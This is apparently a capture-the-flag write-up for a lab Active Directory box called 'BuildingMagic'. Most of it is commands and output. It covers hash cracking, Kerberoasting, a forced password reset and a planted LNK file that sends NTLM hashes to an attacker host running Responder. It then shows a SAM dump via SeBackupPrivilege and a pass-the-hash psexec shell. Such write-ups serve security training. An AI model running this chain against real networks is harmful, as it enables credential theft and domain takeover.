

# BuildingMagic - Write-up


!!! note 
    Author: Dcyberguy

    Status: Published

    Last edited time: December 11, 2025 10:27 PM

    Created time: November 26, 2025 2:45 PM

### Leaked Database

```bash
id	username	full_name	role		password
1	r.widdleton	Ron Widdleton	Intern Builder	c4a21c4d438819d73d24851e7966229c
2	n.bottomsworth	Neville Bottomsworth Plannner	61ee643c5043eadbcdc6c9d1e3ebd298
3	l.layman	Luna Layman	Planner		8960516f904051176cc5ef67869de88f
4	c.smith		Chen Smith	Builder		bbd151e24516a48790b2cd5845e7f148
5	d.thomas	Dean Thomas	Builder		4d14ff3e264f6a9891aa6cea1cfa17cb
6	s.winnigan	Samuel Winnigan	HR Manager	078576a0569f4e0b758aedf650cb6d9a
7	p.jackson	Parvati Jackson	Shift Lead	eada74b2fa7f5e142ac412d767831b54
8	b.builder	Bob Builder	Electrician	dd4137bab3b52b55f99f18b7cd595448
9	t.ren		Theodore Ren	Safety Officer	bfaf794a81438488e57ee3954c27cd75
10	e.macmillan	Ernest Macmillan Surveyor	47d23284395f618bea1959e710bc68ef
```

Filtering out only the `md5` hashes

```bash
awk '{print $2 ":" $NF}' leak-db.txt
r.widdleton:c4a21c4d438819d73d24851e7966229c
n.bottomsworth:61ee643c5043eadbcdc6c9d1e3ebd298
l.layman:8960516f904051176cc5ef67869de88f
c.smith:bbd151e24516a48790b2cd5845e7f148
d.thomas:4d14ff3e264f6a9891aa6cea1cfa17cb
s.winnigan:078576a0569f4e0b758aedf650cb6d9a
p.jackson:eada74b2fa7f5e142ac412d767831b54
b.builder:dd4137bab3b52b55f99f18b7cd595448
t.ren:bfaf794a81438488e57ee3954c27cd75
e.macmillan:47d23284395f618bea1959e710bc68ef

```

Use `John the Ripper` to cracked for weak and easily to crack password hash.

__Found:__ `r.widdleton:lilronron`

```py
Building_magic sudo john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt leakeddb.txt
Using default input encoding: UTF-8
Loaded 10 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Remaining 9 password hashes with no different salts
Warning: no OpenMP support for this hash type, consider --fork=6
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2025-11-26 15:47) 0g/s 13404Kp/s 13404Kc/s 120644KC/s  fuckyooh21..*7¡Vamos!
Session completed. 

Building_magic sudo john leakeddb.txt --show --format=Raw-MD5
r.widdleton:lilronron

1 password hash cracked, 9 left

```

## Enumeration

Document all enumeration don on the host to find vulnerable and attack paths

``` py
nmap -Pn -sV -sC -p- --min-rate=200 10.1.142.44 -T4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-26 15:55 EST
Nmap scan report for buildingmagic.local (10.1.142.44)
Host is up (0.022s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-26 21:02:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: BUILDINGMAGIC.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BUILDINGMAGIC.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BUILDINGMAGIC
|   NetBIOS_Domain_Name: BUILDINGMAGIC
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: BUILDINGMAGIC.LOCAL
|   DNS_Computer_Name: DC01.BUILDINGMAGIC.LOCAL
|   Product_Version: 10.0.20348
|_  System_Time: 2025-11-26T21:04:09+00:00
| ssl-cert: Subject: commonName=DC01.BUILDINGMAGIC.LOCAL
| Not valid before: 2025-09-02T21:29:10
|_Not valid after:  2026-03-04T21:29:10
|_ssl-date: 2025-11-26T21:04:48+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http-proxy    Werkzeug/3.1.3 Python/3.13.3
|_http-server-header: Werkzeug/3.1.3 Python/3.13.3
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.1.3 Python/3.13.3
|     Date: Wed, 26 Nov 2025 21:02:44 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2222
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>Building Magic Application Portal</title>
|     <link href="https://fonts.googleapis.com/css2?family=Cinzel&display=swap" rel="stylesheet">
|     <style>
|     body {
|     font-family: 'Cinzel', serif;
|     background: url('/static/working.jpg') no-repeat center center fixed;
|     background-size: cover;
|     color: white;
|     text-align: center;
|     padding: 50px;
|     form {
|     background: rgba(0, 0, 0, 0.7);
|     padding: 40px;
|     border-radius: 15px;
|     display: inline-block;
|     box-shadow: 0 0 15px rgba(0, 0, 0, 0.7);
|     input, textarea {
|     width: 90
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.1.3 Python/3.13.3
|     Date: Wed, 26 Nov 2025 21:02:44 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-title: Building Magic Application Portal
9389/tcp  open  mc-nmf        .NET Message Framing
49670/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
49853/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

<< SNIP >>

Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-26T21:04:09
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

```

### SMB Enumeration
Enumerating Port 139, 445 with the just above cracked credentials

``` py
nxc smb 10.1.142.44 -u r.widdleton -p 'lilronron'
SMB         10.1.142.44     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:False)
SMB         10.1.142.44     445    DC01             [+] BUILDINGMAGIC.LOCAL\r.widdleton:lilronron

 

nxc smb 10.1.142.44 -u r.widdleton -p 'lilronron' --users
SMB         10.1.142.44     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:False)
SMB         10.1.142.44     445    DC01             [+] BUILDINGMAGIC.LOCAL\r.widdleton:lilronron 
SMB         10.1.142.44     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                     
SMB         10.1.142.44     445    DC01             Administrator                 2025-06-15 02:00:21 0       Built-in account for administering the computer/domain
SMB         10.1.142.44     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.1.142.44     445    DC01             krbtgt                        2025-05-05 22:18:37 0       Key Distribution Center Service Account 
SMB         10.1.142.44     445    DC01             h.potch                       2025-09-02 17:56:09 0        
SMB         10.1.142.44     445    DC01             r.widdleton                   2025-05-15 21:08:40 0        
SMB         10.1.142.44     445    DC01             r.haggard                     2025-05-15 21:09:04 0        
SMB         10.1.142.44     445    DC01             h.grangon                     2025-05-29 21:32:45 0        
SMB         10.1.142.44     445    DC01             a.flatch                      2025-06-15 02:57:05 0       Project Manager 
SMB         10.1.142.44     445    DC01             [*] Enumerated 8 local users: BUILDINGMAGIC

nxc smb 10.1.142.44 -u r.widdleton -p 'lilronron' --shares
SMB         10.1.142.44     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:False)
SMB         10.1.142.44     445    DC01             [+] BUILDINGMAGIC.LOCAL\r.widdleton:lilronron 
SMB         10.1.142.44     445    DC01             [*] Enumerated shares
SMB         10.1.142.44     445    DC01             Share           Permissions     Remark
SMB         10.1.142.44     445    DC01             -----           -----------     ------
SMB         10.1.142.44     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.142.44     445    DC01             C$                              Default share
SMB         10.1.142.44     445    DC01             File-Share                      Central Repository of Building Magic's files.
SMB         10.1.142.44     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.142.44     445    DC01             NETLOGON                        Logon server share 
SMB         10.1.142.44     445    DC01             SYSVOL                          Logon server share
```

`r.widdleton` ONLY has access to READ `Remote IPC`

### BloodHound

Looking at `r.widdleton` user privileges on `Bloodhound`. He does have `NO Outbound Object Control`, `No path to Domain Admins`. Nothing I can use to gain a foothold on the Domain Controller.


### Kerberoastable Users : Impacket-GetUserSPNs

Though I was able to get `r.haggard` krb5tgs ticket. It is very important to check which user(s) that was used as a Service Account.

``` bash
impacket-GetUserSPNs -request -dc-ip 10.1.142.44 buildingmagic.local/r.widdleton
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
ServicePrincipalName                      Name       MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------------------  ---------  --------  --------------------------  --------------------------  ----------
HOGWARTS-DC/r.hagrid.WIZARDING.THM:60111  r.haggard            2025-05-15 17:09:04.002067  2025-05-15 18:34:51.644710             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*r.haggard$BUILDINGMAGIC.LOCAL$buildingmagic.local/r.haggard*$59f4f0560a3b4f0fb0d6ce6a273a11e8$fc76d13822ff9de3b10695216b3e94f7d85d9aa2aa27e7ade5927727986e735f9bd593743f8d22c71c6d28b7213ee41e5dc3e29fe462ae413c4960a3ecda6a6d33b944e76690037c1205e3d97264dfe26c7d0856e9c5e8ae74a46bdc94cf6bcfe2bd76d01f5ca0da808d026252fd8fda09550d34eb6cb20874fcbc3261d410bd7971ffcd4f487d903a5b3fdeb7cf5c8f2e035b580d3006124b5659f070e3f9951a6fc88c429d752944d06563e867304ccbc29a9a13a768a25a83069e70b9681d5fd662bea173bae1fa9ddb14931bf2633c73a63f6fc957a35c1625f78c2c4cc0e3222bd87d31a440c15ba16a1091a12641dc5c5ea817473c0af740d51a22f20bf01e818f2ee880a89ad64e24de29bdcf8ed47be992fac799478192bb457ed69e323e8a867b220e862f9344ea3646560486db93c7ee25455b3c61e39436d7bb55a627a1e8b86ebbfc69081995824a3073ee4940a42a7b33fd8a364b4f05bf02457dd5a574baac6deb69563776effadaf3d6463b11a0a64e8b652504e07b552b7b0007c75da4e5c336dac422be2f1027da54f2a791fb6b2f4365171438d1dab58aac676ecec240f93c4c98aaf95708591b43e6b1894c6eecf20aa49f4261fe4873519a4ef116990d4ffc53dbb341ad78955a027b8355eb90e4bc7e0ab35b69018d21c4ec2947463a2a41d7b2240ee96c360f2b482ef0a9d15289d4bf32ba623f40357c4a0d2295a1780f62ef29fe9638f33488f45e21ec5c076f137cff2d4769eaa39a5ec6d8548a3a9ec3686ff011aee88b073bec059cd12e8c8e2bc9f08d0797ba7b72b753dd94411d3f91402e3a3d51c6bf119b06708e352c1df76e78fe1f67fbe6fd3c5ab1430959a336ce3e45276173167418bf245814323e315c5ced9cf7bc831b93f45f4085a18d7fff24fd55eee47b3d47c50c5c4988ecddc48aa16070a56b621f27c0af03c604fd257d4636f9e221d3036f57a0445401e86b548d776e01db92aa3a5b021cd8f0c765bb8b7762f462b05699fe7b7af59e20e905114a5b6cc93fe8980b080988f55e72724bcb6720411e9c28e014c54e080eff3137a6067f08a10ded57d9ef8af8e6aae5e727f1134ebf6ced42e5d8cba1641cf87cd8a754405dff5f538d2b5e4412ef61b3e5b923759a0bcfddf06dda95f58cb65a8f6b239ef18a64ea9b5273ef12aff34cc097944b4955952220928e02d11561a160ac855531ba64b2e00d2b6f390b9a889b952c26d2716906e988c21162b43382e7edb3735f308d97915d2fae2e8ac40f09114554fcaa406ccdb89a40ecefb96bb8efb7214642ecafdadf9090c8972c25dc27bd16ca781a9cd5b2ec99809536f9c0a3ec51baa60b42857420e83420daa15fe77075a176d0e1062c0192931d25a09a339c196c47bba4a1c228845c963920fe538b1fac70b34292068f00998cc3aaeb1dae5fe236b2c028d808fc2d5f29e39a32df71ae6fdf7aa3e601a3beef74d0d3ddb17af012fa14719bc7e91555a37bd911349c39863e051ece8e88f367b812372fb88b3ca4e0d57a07656513d606e144
```

Save to a file `krb5t.hash` and use `John The Ripper` to crack it as follows:

```bash
sudo john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt krb5t.hash
[sudo] password for parrot: 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rubeushagrid     (?)     
1g 0:00:00:02 DONE (2025-11-26 22:43) 0.3412g/s 1410Kp/s 1410Kc/s 1410KC/s rubibrian7..rubberduckie8
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

### Creds Obtained

```bash
r.haggard:rubeushagrid
```

Potential Paths for the `r.haggard` user.
`R.HAGGARD` User to have more permissions that our pervious obtained user (r.widdleton)

```bash
Building_magic nxc rdp 10.1.142.44 -u r.haggard -p 'rubeushagrid'
RDP         10.1.142.44     3389   DC01             [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (nla:True)
RDP         10.1.142.44     3389   DC01             [+] BUILDINGMAGIC.LOCAL\r.haggard:rubeushagrid 
➜  Building_magic nxc smb 10.1.142.44 -u r.haggard -p 'rubeushagrid'
SMB         10.1.142.44     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:False)
SMB         10.1.142.44     445    DC01             [+] BUILDINGMAGIC.LOCAL\r.haggard:rubeushagrid 
➜  Building_magic nxc smb 10.1.142.44 -u r.haggard -p 'rubeushagrid' --shares
SMB         10.1.142.44     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:False)
SMB         10.1.142.44     445    DC01             [+] BUILDINGMAGIC.LOCAL\r.haggard:rubeushagrid 
SMB         10.1.142.44     445    DC01             [*] Enumerated shares
SMB         10.1.142.44     445    DC01             Share           Permissions     Remark
SMB         10.1.142.44     445    DC01             -----           -----------     ------
SMB         10.1.142.44     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.142.44     445    DC01             C$                              Default share
SMB         10.1.142.44     445    DC01             File-Share                      Central Repository of Building Magic's files.
SMB         10.1.142.44     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.142.44     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.142.44     445    DC01             SYSVOL          READ            Logon server share 

```

Looking at `Bloodhound` the r.haggard user has `ForceChangePassword` right over `h.potch` user




Let’s change the `h.potal` user password using `net rpc`.

```bash
net rpc password "h.potch" "Valentino1@" -U "buildingmagic.local"/"r.haggard"%'rubeushagrid' -S "10.1.142.44"
```

Now with the `h.potch` password changed, I noticed the user has READ and WRITE access to the `File-Share` Shares

```shell
nxc smb 10.1.142.44 -u h.potch -p 'Valentino1@' --shares
SMB         10.1.142.44     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:False)
SMB         10.1.142.44     445    DC01             [+] BUILDINGMAGIC.LOCAL\h.potch:Valentino1@ 
SMB         10.1.142.44     445    DC01             [*] Enumerated shares
SMB         10.1.142.44     445    DC01             Share           Permissions     Remark
SMB         10.1.142.44     445    DC01             -----           -----------     ------
SMB         10.1.142.44     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.142.44     445    DC01             C$                              Default share
SMB         10.1.142.44     445    DC01             File-Share      READ,WRITE      Central Repository of Building Magic's files.
SMB         10.1.142.44     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.142.44     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.142.44     445    DC01             SYSVOL          READ            Logon server share 

```

`An empty `File-Share` Share, really`

``` shell
impacket-smbclient h.potch@10.1.142.44
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
Type help for list of commands
# Shares
*** Unknown syntax: Shares
# shares
ADMIN$
C$
File-Share
IPC$
NETLOGON
SYSVOL
# use File-Share
# ls
drw-rw-rw-          0  Wed Nov 26 22:58:53 2025 .
drw-rw-rw-          0  Tue Sep  2 15:37:28 2025 ..

```

I will use the `sneaky-lnk` from `nxc` to add a file in the Share with READ and WRITE Operations. Once accessed would give me the `NTLM` hash of the user would be captured in the `Responder` tool.

``` shell
nxc smb 10.1.142.44 -u h.potch -p 'Valentino1@' -M slinky -o NAME=sneaky.lnk SERVER=10.200.21.89 SHARES=File-Share
[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
SMB         10.1.142.44     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:False)
SMB         10.1.142.44     445    DC01             [+] BUILDINGMAGIC.LOCAL\h.potch:Valentino1@ 
SMB         10.1.142.44     445    DC01             [*] Enumerated shares
SMB         10.1.142.44     445    DC01             Share           Permissions     Remark
SMB         10.1.142.44     445    DC01             -----           -----------     ------
SMB         10.1.142.44     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.142.44     445    DC01             C$                              Default share
SMB         10.1.142.44     445    DC01             File-Share      READ,WRITE      Central Repository of Building Magic's files.
SMB         10.1.142.44     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.142.44     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.142.44     445    DC01             SYSVOL          READ            Logon server share 
SLINKY      10.1.142.44     445    DC01             [+] Found writable share: File-Share
SLINKY      10.1.142.44     445    DC01             [+] Created LNK file on the File-Share share

```

Start `Responder` using the commands: `sudo responder -i tun0`

``` shell
[+] Current Session Variables:
    Responder Machine Name     [WIN-V0O53Z417SB]
    Responder Domain Name      [B2HI.LOCAL]
    Responder DCE-RPC Port     [49666]

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.1.142.44
[SMB] NTLMv2-SSP Username : BUILDINGMAGIC\h.grangon
[SMB] NTLMv2-SSP Hash     : h.grangon::BUILDINGMAGIC:48fb610ce970b961:8770C096C7ABF59AF844045B7A12AFDF:0101000000000000007F2DBF295FDC010453630E167A61030000000002000800420032004800490001001E00570049004E002D00560030004F00350033005A003400310037005300420004003400570049004E002D00560030004F00350033005A00340031003700530042002E0042003200480049002E004C004F00430041004C000300140042003200480049002E004C004F00430041004C000500140042003200480049002E004C004F00430041004C0007000800007F2DBF295FDC010600040002000000080030003000000000000000000000000040000024F9017E10B8E6020144E4B43C89A0160BF73C3DC935B54BA871DDAC22236C8C0A001000000000000000000000000000000000000900220063006900660073002F00310030002E003200300030002E00320031002E00380039000000000000000000
[*] Skipping previously captured hash for BUILDINGMAGIC\h.grangon
[*] Skipping previously captured hash for BUILDINGMAGIC\h.grangon
[*] Skipping previously captured hash for BUILDINGMAGIC\h.grangon
[*] Skipping previously captured hash for BUILDINGMAGIC\h.grangon
[*] Skipping previously captured hash for BUILDINGMAGIC\h.grangon

```

Cracked the `NTLMv2` hash with John

``` shell
sudo john --format=netntlmv2 ntlm.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
magicXXXXX       (h.grangon)     
1g 0:00:00:00 DONE (2025-11-26 23:23) 1.282g/s 1973Kp/s 1973Kc/s 1973KC/s majko..mafi20
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

### Creds obtained

```shell
h.grangon:magicXXXXX
```

Let’s confirm credential and access the compromised host

```shell
nxc smb 10.1.142.44 -u h.grangon -p 'magicXXXXX' 
SMB         10.1.142.44     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:False)
SMB         10.1.142.44     445    DC01             [+] BUILDINGMAGIC.LOCAL\h.grangon:magicXXXXX 
➜  ~ nxc winrm 10.1.142.44 -u h.grangon -p 'magicXXXXX'
WINRM       10.1.142.44     5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:BUILDINGMAGIC.LOCAL)
WINRM       10.1.142.44     5985   DC01             [+] BUILDINGMAGIC.LOCAL\h.grangon:magicXXXXX (Pwn3d!)

```

## Foothold

Research findings, data insights, and key considerations and document how you got a foothold on the vulnerable box

```shell
evil-winrm -i 10.1.142.44 -u h.grangon -p 'magicXXXXX'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\h.grangon\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\h.grangon\Desktop> dir

    Directory: C:\Users\h.grangon\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          9/2/2025   7:41 PM           2308 Microsoft Edge.lnk
-a----          9/2/2025   7:41 PM             32 user.txt

*Evil-WinRM* PS C:\Users\h.grangon\Desktop> type user.txt
701b5XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

```

## Privilege Escalation

Document how you were able to more laterally and gain a higher privilege

Looking at the `h.grangon` user privileges. He literally has `SeBackUpPrivilege` which can be used to dump all users credentials.

``` shell
Evil-WinRM* PS C:\Users\h.grangon\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled ******
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

### Dumping the SAM and SYSTEM Hives

I can dump both the `system` and `sam` files. They both contain user’s password hashes

```shell
*Evil-WinRM* PS C:\Users\h.grangon\Documents> reg save hklm\system .\system
The operation completed successfully.

*Evil-WinRM* PS C:\Users\h.grangon\Documents> reg save hklm\sam .\sam
The operation completed successfully.

*Evil-WinRM* PS C:\Users\h.grangon\Documents> ls

    Directory: C:\Users\h.grangon\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/26/2025   8:47 PM           3449 EnableAllTokenPrivs.ps1
-a----        11/26/2025   9:00 PM          49152 sam
-a----        11/26/2025   9:00 PM       16629760 system

*Evil-WinRM* PS C:\Users\h.grangon\Documents> download system
                                        
Info: Downloading C:\Users\h.grangon\Documents\system to system
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\h.grangon\Documents> download sam
                                        
Info: Downloading C:\Users\h.grangon\Documents\sam to sam
                                        
Info: Download successful!

```

I got the Administrator hash using `secretdump`

```shell
impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0xf61a94fb13f74350a1f87f509c8c455c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:520126a03f5d5a8d836f1c4f34ede7ce:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 

```

But I couldn’t get a shell with the Administrator’s hash

```shell
impacket-psexec administrator@10.1.142.44 -hashes aad3b435b51404eeaad3b435b51404ee:520126a03f5d5a8d836f1c4f34ede7ce 
Impacket v0.11.0 - Copyright 2023 Fortra

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)

```

So I went back to `Bloodhound` and found out that `a.flatch` is also part of the `administrators` group


```shell
impacket-psexec a.flatch@10.1.142.44 -hashes aad3b435b51404eeaad3b435b51404ee:520126a03f5d5a8d836f1c4f34ede7ce
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.1.142.44.....
[*] Found writable share ADMIN$
[*] Uploading file ZKWrJkPD.exe
[*] Opening SVCManager on 10.1.142.44.....
[*] Creating service GEKb on 10.1.142.44.....
[*] Starting service GEKb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd C:\Users\

C:\Users> dir
 Volume in drive C has no label.
 Volume Serial Number is 3806-0A24

 Directory of C:\Users

09/02/2025  07:06 PM    <DIR>          .
09/02/2025  07:06 PM    <DIR>          a.flatch
09/02/2025  07:37 PM    <DIR>          Administrator
09/02/2025  06:43 PM    <DIR>          h.grangon
05/05/2025  01:50 PM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  34,921,328,640 bytes free

C:\Users> cd Administrator\Desktop

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 3806-0A24

 Directory of C:\Users\Administrator\Desktop

06/12/2025  02:35 PM    <DIR>          .
09/02/2025  07:40 PM    <DIR>          ..
06/12/2025  12:37 PM    <DIR>          nssm-2.24
09/02/2025  03:24 PM                32 root.txt
               1 File(s)             32 bytes
               3 Dir(s)  34,921,328,640 bytes free

C:\Users\Administrator\Desktop> type root.txt
9557e6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

```
